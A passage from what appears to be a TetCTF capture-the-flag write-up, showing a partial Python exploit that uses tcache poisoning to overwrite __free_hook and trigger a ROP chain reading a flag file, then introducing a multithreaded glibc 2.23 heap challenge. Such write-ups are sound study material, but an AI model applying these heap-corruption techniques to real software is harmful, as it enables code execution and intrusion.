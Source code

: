 ## Tcache poisoning
Exactly the same as `cache_v1`: Freeing the two `victim` chunks and we can easily overwrite their `fd` pointer, classic `tcache poisoning`. With that, I now can overwrite `__free_hook` and also have all the leaked addresses in my hands. I could just use my ROP chain that I explained [here](https://blog.efiens.com/post/heap-seccomp-rop/) to read the flag. Note that the `payload` must be put into a cache's `name`, not `content`, because the `name` is what actually got `free()` first when we call `erase`.
```python
# Erase victims, overwrite victim2's fd to __free_hook
erase("victim1")
erase("victim2")
write("orig", 0x120b0, 8, p64(l.symbols["__free_hook"]))

# Build ROP payload
base = heap + 0x2d190             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
... # read the full payload in my other post or my full script
payload += b"/home/cache/flag"

# Create a cache with payload as its name
create(payload, 0x100)
write(payload, 0, 8, "A"*8)

# Overwrite __free_hook with call_gadget
create("free", 0x100)
write("free", 0, 8, p64(call_gadget))

# Execute the chain
erase(payload)
```

The flag is:
```
TetCTF{https://www.youtube.com/watch?v=RYhKUKzD6IQ}
```

## Appendix
The full exploit is `a.py`.

# SimpleSystem
## Introduction
- **Given files:** `SimpleSystem`, `libc-2.23.so`.
- **Category:** Pwnable
- **Hint**: `do you know an arena can be reused when arena list is full ?`
- **Summary:** A glibc 2.23 heap challenges that is very unique. It is a simple system (as the name suggest) that we can signup, signin and use its functionalities, it utilizes multithreading to implement them. The bug is in the synchronization implementation of multithreading, and the exploitation relies on how glibc handles `malloc()` on multithreaded environment (although there is another intended bug in the authentication process, but it is not needed).
